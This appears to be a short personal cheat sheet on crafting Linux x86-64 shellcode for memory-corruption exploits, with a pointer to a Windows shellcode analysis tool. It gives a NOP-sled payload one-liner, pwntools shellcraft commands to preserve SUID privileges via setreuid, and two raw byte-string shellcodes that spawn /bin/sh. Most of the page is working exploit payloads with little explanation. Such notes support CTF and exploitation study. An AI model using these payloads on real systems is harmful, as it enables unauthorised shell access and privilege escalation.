 # Analysing windows shellcode
https://github.com/mandiant/speakeasy

# Craft shell code
## General ideas
Write the shell code and find a way to update a function return call to point to the beginning of the shell code.

Because each system behave differently, it's safe to add some NOP instructions (\x90).

e.g.
```bash
python -c "print (b'\x90' * no_of_nops + shellcode + random_data * no_of_random_data + memory address)"
```

## Payloads
### Keep some suid
https://docs.pwntools.com/en/stable/shellcraft.html
Must be used in command line to specify the format:
e.g.
```bash
~/.local/bin/pwn shellcraft -f d amd64.linux.setreuid 1002
```

asm(pwnlib.shellcraft.amd64.linux.setreuid(1003), arch = 'amd64', os = 'linux')

### Basic shell (unix) - 30 chars
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05

### Another basic shell (unix) - 40 chars
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05

### With pwntools
```python
asm(shellcraft.amd64.linux.sh())
```
